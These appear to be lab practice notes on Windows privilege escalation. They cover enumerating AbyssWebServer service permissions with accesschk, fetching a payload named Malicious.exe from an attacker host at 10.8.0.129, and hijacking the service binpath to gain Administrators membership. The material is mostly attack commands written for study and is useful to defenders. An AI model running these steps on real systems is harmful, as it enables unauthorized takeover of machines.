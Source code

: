 
#### Practice
1. access check
```
accesschk 
- in SysinternalsSuite
- need to be downloaded from the internet by MS
KALI > WINDOWS 
wget http://10.8.0.129/accesschk.exe -outfile accesschk.exe
  -outfile FULLPATH: necessary

.\accesschk.exe -accepteula -ucqv redraccoon AbyssWebServer
  -ucqv : I'm gonna gather specific service's info

  this specific user has ALL_ACCESS of service  
```

- in case of specific group granted  
```
.\accesschk.exe -accepteula -ucqv Everyone AbyssWebserver
.\accesschk.exe -accepteula -ucqv Users AbyssWebserver
.\accesschk.exe -accepteula -ucqv "Authenticated Users" AbyssWebserver
  all users are in these default group and don't have Acess

.\accesschk.exe -accepteula -ucqv Administrators AbyssWebserver
  Administratos have access

```

2. check Binary Path 
```
sc.exe qc Abysswebserver
```
- can modify BINARY_PATH_NAME 
```
wget http://10.8.0.129/Abyss.exe -outfile c:\temp\Malicious.exe


```

3. modify Binary Path
```
sc.exe config Abysswebserver binpath= "c:\temp\malicious.exe" 
  white space is necessary  

restart-service abysswebserver

sc.exe qc abysswebserver
net localgroup administrators
```
  - Administrators group got

  - and also redraccoon can run powershell as administrator 
  - ![alt text](image-9.png)
    - of course username doesn't change, but can run as priv Administrator  
